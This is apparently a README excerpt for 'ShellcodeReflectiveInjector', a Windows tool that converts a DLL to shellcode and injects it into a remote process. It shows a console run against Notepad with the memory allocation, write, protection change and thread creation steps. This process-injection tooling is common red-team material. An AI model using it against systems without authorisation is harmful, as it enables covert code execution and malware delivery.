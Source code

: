 ![](./figures/sRDI-load.png)

When PID specified with `-p` option, this tool convert DLL to shellcode and inject it remote process:

```
PS C:\Dev> Get-Process notepad

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    529      33    28008      66320       0.28  10236   1 Notepad


PS C:\Dev> .\ShellcodeReflectiveInjector.exe -m .\TestLib.dll -i -p 10236

[>] Reading module file.
    [*] Path : C:\Dev\TestLib.dll
[+] 10752 bytes module data is read successfully
[*] Module architecture is AMD64.
[>] Trying to convert module data to shellcode
[*] Got 0x3334 bytes shellcode.
[>] Trying to open the target process.
    [*] Process ID   : 10236
    [*] Process Name : Notepad
[+] Got a target process handle.
    [*] Process Handle : 0x2DC
[>] Trying to allocate shellcode buffer.
[+] Shellcode buffer is at 0x000001C85C5A0000.
[>] Trying to write shellcode to the target process.
[+] 13108 bytes DLL data is written in the target process.
[*] Shellcode is written in shellcode buffer.
[>] Trying to update memory protection for shellcode buffer.
[+] Memory protection is updated successfully.
[>] Trying to create shellcode thread.
[+] Shellcode thread is started successfully.
    [*] Thread Handle : 0x2E4
[*] Done.
```
